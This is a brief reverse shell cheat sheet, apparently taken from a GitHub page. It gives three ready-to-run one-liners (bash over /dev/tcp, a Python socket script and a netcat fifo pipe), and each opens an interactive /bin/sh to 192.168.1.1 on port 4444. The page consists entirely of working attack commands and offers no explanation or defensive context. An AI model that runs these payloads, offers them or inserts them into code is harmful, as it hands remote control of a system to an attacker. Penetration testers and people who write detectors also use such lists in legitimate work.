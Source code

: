 #### Reverse Shell Cheatsheet

* BASH
```
bash -i >& /dev/tcp/192.168.1.1/4444 0>&1
```

* PYTHON
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

* NETCAT
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.1 4444 >/tmp/f
```
